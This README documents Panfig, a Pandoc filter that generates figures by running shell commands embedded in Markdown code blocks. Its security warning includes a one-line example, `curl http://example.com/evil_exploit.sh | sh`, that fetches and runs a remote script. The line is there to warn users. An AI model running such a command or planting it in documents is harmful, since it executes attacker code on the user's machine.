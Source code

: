 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files containing figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Makefile or something to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for God's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care about it.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

1. **Install.** First things, of course, first: `pip install panfig`.

2. **Write Markdown.** In your Markdown file, where you want a figure, write a code block that describes how to generate the desired figure. For example:

        ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
          digraph G {
            on -> off;
            off -> on;
          }
        ~~~~~~~~

    This uses Pandoc's [fenced code block](http://pandoc.org/README.html#fenced-code-blocks) syntax to give the block the `.panfig` class (to flag it for processing by Panfig), and a `shell` attribute specifying the command that will generate the figure. (It's a Python format string, so `{path}` is replaced by the `sh`-escaped path to the image file that should be generated. And if you want a normal `{` you'll need to type `{{`. Sorry.) The shell command is run, with the contents of the code block passed to the subprocess's standard input. It's that simple!

3. **Compile the document.** Invoke `pandoc` to compile the document as you normally would, but add the option `--filter panfig`. (If the `panfig` executable isn't on your default path -- for example, if you use Virtualenv -- you may need to pass the full path to the `panfig` executable, e.g. `~/.virtualenv/3.4/bin/panfig`.)


### Bells and Whistles

#### Aliases

An alias specifies a set of attributes that Panfig should pretend a block has. For example, instead of writing `shell="dot -Tpng -o {path}"` for all your graphs, you could instead define an alias, like so:

        ~~~~~~~~ { .panfig-aliases }
          {"dot": {"shell": "dot -Tpng -o {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

This is exactly, 100% identical to

        ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

The body of a `.panfig-aliases` block should be a JSON object of the form `{"alias-name": {"attr": "value", ...}, ...}` -- that is, mapping alias names to objects, which in turn specify the attributes you're using the alias as a shorthand for.

Panfig comes with several aliases predefined:

- `dot`: uses `dot` to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

- `mathematica` uses Mathematica to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=mathematica }
          Plot[Sin[x], {x, 0, 2 Pi}] (* last result is `Export`ed *)
        ~~~~~~~~

- `matplotlib` uses Matplotlib to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=matplotlib }
          import numpy as np
          xs = np.linspace(0, 2*np.pi, 100)
          plt.plot(xs, np.sin(xs)) # matplotlib.pyplot is already imported as plt
          # plt.savefig() is called at the end to generate the image
        ~~~~~~~~


#### Text Processing

Often, to avoid code duplication, you'll want to massage the code block's contents in some way. Panfig supports some special attributes that will perform common massaging operations:

- `prologue="..."`: prepends the attribute-value to the block's contents (separated by a newline)
- `epilogue="..."`: appends the attribute-value to the block's contents (separated by a newline)
- `dedent=true`: removes an equal amount of whitespace (as much as possible, given that constraint) from the beginning of each line

This is all stuff that you *could* do just by constructing a fancy pipeline in your `shell` command, but... what a pain.

For example:


        ~~~~~~~~ { .panfig-aliases }
          {"fsm": {"shell": "dot -Tpng -o {path}",
                   "prologue": "digraph G { _start [shape=\"none\", label=\"\"];",
                   "epilogue": "}"}}
        ~~~~~~~~

        ~~~~~~~~ {.panfig alias=fsm}
          _start -> off;
          on [shape="doublecircle"];
          on -> off;
          off -> on;
        ~~~~~~~~
